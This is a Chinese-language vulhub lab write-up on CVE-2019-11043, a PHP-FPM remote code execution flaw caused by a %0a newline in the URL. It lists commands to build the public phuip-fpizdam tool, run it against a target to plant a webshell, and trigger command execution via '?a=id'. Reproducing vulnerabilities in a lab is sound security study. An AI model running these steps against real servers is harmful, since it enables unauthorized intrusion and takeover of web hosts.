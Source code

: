# PHP-FPM远程命令执行（CVE-2019-11043）

###### by ADummy

### 0x00利用路线

​			安装go环境--->下载利用工具--->写入shell--->getshell

### 0x01漏洞介绍			

​		漏洞主要由于 PHP-FPM 中 sapi/ fpm/ fpm/ fpm_main.c 文件内的 env_path_info 下溢导致，攻击者可以使用换行符 %0a 破坏 Nginx 中 fastcgi_split_path_info 对应的正则表达式，导致传递给 PHP-FPM 的 PATH_INFO 值为空，从而触发该漏洞，通过发送特制的URL请求，在一些特殊的配置情况下会导致任意代码执行。（当nginx配置不当时，会导致php-fpm远程任意代码执行。）

### 0x02漏洞复现

```
apt-get install golang    							  // 安装go环境

git clone https://github.com/neex/phuip-fpizdam.git   //下载利用工具

cd phuip-fpizdam     								  //进入工作目录

go get -v && go build								  //此时会报错，
									//报错原因：默认使用的是proxy.golang.org，在国内无法访问
go env -w GOPROXY=https://goproxy.cn                  //换一个国内能访问的地址

go get -v && go build               //重新执行命令 phuip-fpizdam工具成功编译

go run . "http://your-ip:8080/index.php    //攻击，webshell被写入

一个Webshell是在PHP-FPM的后台编写的，请访问http://your-ip:8080/index.php?a=id以触发RCE
```



安装golang环境

![PHP_FPM远程命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_FPM远程命令执行漏洞_1.jpg)



执行命令

![PHP_FPM远程命令执行漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_FPM远程命令执行漏洞_2.jpg)



![PHP_FPM远程命令执行漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_FPM远程命令执行漏洞_3.jpg)

### 0x03参考资料

https://blog.csdn.net/xuandao_ahfengren/article/details/106254216

https://blog.csdn.net/weixin_40412037/article/details/111225967

https://blog.csdn.net/weixin_40412037/article/details/111224046